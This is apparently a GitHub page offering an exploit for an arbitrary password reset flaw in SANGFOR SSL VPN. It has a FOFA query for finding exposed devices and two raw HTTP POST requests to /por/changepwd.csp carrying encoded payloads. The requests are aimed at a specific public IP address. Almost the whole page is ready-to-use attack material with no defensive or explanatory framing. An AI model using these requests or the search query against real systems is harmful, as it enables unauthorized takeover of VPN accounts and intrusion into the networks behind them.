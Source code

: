# 深信服 SSL VPN 任意密码重置漏洞

    SANGFOR SSL-VPN Arbitrary password reset vulnerability

## fofa

```
app="SANGFOR-SSL-VPN" && icon_hash="-693794744"
```

## exp

```
POST /por/changepwd.csp HTTP/1.1
Host: 103.139.212.214
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 172

sessReq=clusterd&sessid=0&str=26c2ebe58a8274ba6c3dbe6051e9d406a9122b7218ca21951330e1c8a968aeee5330fb838553b5d5101856fab8e0a0463921543cb63c6e47c0447e749a55d7ae210f68&len=134
```

```
POST /por/changepwd.csp HTTP/1.1
Host: 103.139.212.214
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 172

sessReq=clusterd&sessid=0&str=6b83b24fdb5a1d451490f8b55fb09cd5287a942904fd6c23036e20884ced906921040534f18f514ff649127ec52d5664c491c655b3fa617b9f3ebcca9b3b74099fe783&len=134
```

![image](https://s1.ax1x.com/2023/02/14/pSoLl4J.png)

